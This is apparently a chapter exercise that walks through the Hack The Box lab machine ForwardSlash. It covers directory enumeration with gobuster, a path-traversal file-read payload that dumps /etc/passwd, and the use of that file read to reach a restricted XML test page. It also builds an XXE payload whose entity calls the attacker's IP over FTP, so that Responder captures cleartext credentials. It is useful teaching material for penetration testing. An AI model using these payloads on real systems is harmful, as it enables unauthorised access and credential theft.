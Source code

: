 # Exercise: Enumerating and exploiting XXE on ForwardSlash

We covered the first part of this machine in Chapter 2. We had discovered a site backup.forwardslash.htb which presented us with a login page. We can explore this site with gobuster looking for directories and PHP files:

```bash
┌─[oztechmuse@parrot]─[~/boxes/ForwardSlash]
└──╼ $gobuster dir -t 50 \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -u 
http://backup.forwardslash.htb

<SNIP>
/login.php (Status: 200)
/register.php (Status: 200)
/index.php (Status: 302)
/welcome.php (Status: 302)
/dev (Status: 301)
/api.php (Status: 200)
/environment.php (Status: 302)
/logout.php (Status: 302)
/config.php (Status: 200)
/hof.php (Status: 302)
```

If we try and got to the /dev directory, we get a 403 Access Denied:

```bash
403 Access Denied
Access Denied From 10.10.14.135
```

It seems that this directory is not accessible from outside IP addresses. The login page does have a link to /register.php and so we can create an account on the site there. Using the new credentials, we can log in and get access to a dashboard page

![Dashboard home page for users on ForwardSlash](../.gitbook/assets/forwardslash1.png)

The page of interest is for changing your profile picture which reports that the functionality has been disabled because of a hack of the site.

![Change profile picture page on ForwardSlash](../.gitbook/assets/forwardslash2.png)

The text box and Submit button have been disabled by adding the attribute disabled="" into the HTML for these elements. If you right click on the web page in the browser and select Inspect Element, you will be able to see the HTML for the page in the Inspector tab of the browser developer tools \(Figure 3-7\).

![Inspecting the HTML code for the page profilepicture.php](../.gitbook/assets/forwardslash3.png)

You can click on the HTML where it says disabled in the form section and delete it for both the text box and the submit button. Let us test for Local File Inclusion \(LFI\) by pointing the URL in the text box to a local file like /etc/passwd. Switch FoxyProxy to use the Burp proxy and enter ../../../etc/passwd into the text box before pressing the Submit button. Once intercepted in Burp, send the request to the Repeater tab and press Send to send it to the server. The response includes the file!

```markup
HTTP/1.1 200 OK
<SNIP>
<!DOCTYPE html>
<head>
<meta charset="UTF-8">
<title>Welcome</title>
<link rel="stylesheet" href="bootstrap.css">
<style type="text/css">
body{ font: 14px sans-serif; text-align: center; }
</style>
</head>
<body>
<div class="page-header">
<h1>Change your Profile Picture!</h1>
<font style="color:red">This has all been disabled while we try to get 
back on our feet after the hack.<br><b>-Pain</b></font>
</div>
<form action="/profilepicture.php" method="post">
URL:
<input type="text" name="url" disabled style="width:600px"><br>
<input style="width:200px" type="submit" value="Submit" disabled>
</form>
</body>
</html>
root:x:0:0:root:/root:/bin/bash
<SNIP>
pain:x:1000:1000:pain:/home/pain:/bin/bash
chiv:x:1001:1001:Chivato,,,:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```

This shows a couple of users, pain and chiv. If we now try LFI on the /dev directory, it will include the file index.php from there and we can read the contents:

```markup
<html>
<h1>XML Api Test</h1>
<h3>This is our api test for when our new website gets refurbished</h3>
<form action="/dev/index.php" method="get" id="xmltest">
<textarea name="xml" form="xmltest" rows="20" cols="50"><api>
<request>test</request>
</api>
</textarea>
<input type="submit">
</form>
</html>
<!-- TODO:
Fix FTP Login
-->
```

Do you remember how we got a 403 error when we tried to access this directory before with an error message saying we couldn't access it from our IP address? Well, we have now found a way of exploiting a SSRF \(Server Side Request Forgery\) by accessing the site from the web server itself using LFI.

The returned information suggests a function to test XML input and so we can test if the site is vulnerable to XXE. This next part is going to be a leap of faith as to how you are supposed to work out that what the XML will do is try an FTP login, however, there is a clue in the TODO message to "Fix FTP Login". We can construct an XML document that will execute an FTP login as follows:

```markup
<?xml version="1.0" ?>
<!DOCTYPE html [
<!ELEMENT bar >
<!ENTITY foo SYSTEM "ftp://10.10.14.135/">
]>
<api>
<request>$foo;</request>
</api>
```

We can then send that to the /dev/index.php page using the request in Burp by passing the XML as a parameter to [http://backup.fowardslash.htb/dev/index.php?xml=&lt;XXE](http://backup.fowardslash.htb/dev/index.php?xml=<XXE) code&gt;. The XML code needs to be URL encoded twice and so select the XML code in Burp and right click and select URL encode all characters. Repeat this. Before sending the request, we can start the tool responder to listen for FTP requests and print out the username and password that has been supplied:

```bash
 ─[rin@parrot]─[~/boxes/ForwardSlash]
└──╼ $sudo responder -I tun0
<SNIP>
[+] Servers:
<SNIP>
FTP server [ON]
```

When the request is sent in Burp, we get a hit:

```bash
[+] Listening for events...
[FTP] Cleartext Client : 10.129.1.91
[FTP] Cleartext Username : chiv
[FTP] Cleartext Password : N0bodyL1kesBack/
```

This then gives us credentials to use with SSH to get on the box as user chiv. This user doesn't have access to the user flag and you will need to do some lateral movement to get the user pain. However, that involves another SUID file and we can leave that as an exercise for later.

